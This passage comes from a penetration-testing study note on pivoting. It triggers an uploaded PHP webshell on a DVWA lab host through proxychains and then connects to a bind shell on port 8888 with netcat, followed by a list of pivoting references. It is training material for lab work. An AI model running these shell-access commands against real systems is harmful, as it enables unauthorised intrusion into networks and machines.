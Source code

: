Using the `curl` command with `proxychains` to execute the webserver while pivoting.

`$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/shell.php`

It starts a listening port of **8888** that is awaiting for connection from the compromised webserver

```
$ ss -lnt
State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port       Process
LISTEN       0            128                      0.0.0.0:8888                    0.0.0.0:*
LISTEN       0            511                            *:80                            *:*
```

Establishing the bind shell to execute further commands by entering the IP address and the Port that we've generated the bind shell.

`$ proxychains nc 192.168.56.106 8888`

![[07 - Callback Shell via Proxychains.png]]

This can be applied with webshells like [[Pentesting Phases/Initial Access/Callback Shells/Webshells/Webshells#^e8491c|weevely]] as well.

## 02 - Metasploit

TODO: Demonstrate pivoting via `ssh_login` MSF module (see references)

---
## References

- [FareedFauzi OSCP Playbook Port Forwarding SSH Tunneling]([https://fareedfauzi.gitbook.io/oscp-notes/others/port-forwarding-ssh-tunneling](https://fareedfauzi.gitbook.io/oscp-notes/others/port-forwarding-ssh-tunneling))

- [Cocomelonc Pivoting Part 1](https://cocomelonc.github.io/pentest/2021/11/04/pivoting-1.html)

- [LinuxHint SSH StrickHostKeyChecking](https://linuxhint.com/ssh-stricthostkeychecking/)

- [Forwarding Reverse Shells Through A Jump Box Using SSH](https://ryanwendel.medium.com/forwarding-reverse-shells-through-a-jump-box-using-ssh-7111f1d55e3a)

- [Network Pivoting Using SSH Return Reverse Shell From Internal Network Machine](https://bryanleong98.medium.com/network-pivoting-using-ssh-return-reverse-shell-from-internal-network-machine-f1c5043b2d86)

- [Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-port-forwarding/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [Pivoting Through Tomcat](http://willgenovese.com/pivoting-through-tomcat/)
